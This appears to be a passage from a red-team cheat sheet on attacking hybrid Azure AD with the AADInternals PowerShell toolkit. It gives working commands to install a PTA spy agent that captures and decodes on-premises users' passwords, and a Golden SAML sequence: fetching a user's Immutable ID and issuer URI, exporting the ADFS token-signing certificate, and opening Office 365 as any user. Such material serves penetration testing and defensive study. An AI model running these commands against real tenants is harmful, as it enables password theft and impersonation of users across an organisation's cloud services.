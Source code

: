 ### See passwords of on-prem users authenticating

* Stored in C:\PTASpy

```powershell
Get-AADIntPTASpyLog -DecodePasswords
```

#### Register a new PTA agent

* After getting Global Administrator privileges by setting it on a attacker controled machine.

```powershell
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```

## Federation-ADFS

* Golden SAML Attack

### Todo if ADFS is available

#### Get the Immutable-ID

```powershell
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

#### On ADFS server (As administrator)

```powershell
Get-AdfsProperties | select identifier
```

#### Check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)

```powershell
Get-MsolDomainFederationSettings -DomainName <DOMAIN> | select IssuerUri
```

#### Extract the ADFS token signing certificate

* With DA privileges on-prem

```powershell
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Access cloud apps as any user

```powershell
Open-AADIntOffice365Portal -ImmutableID <IMMUTABLE ID> -Issuer <DOMAIN>/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
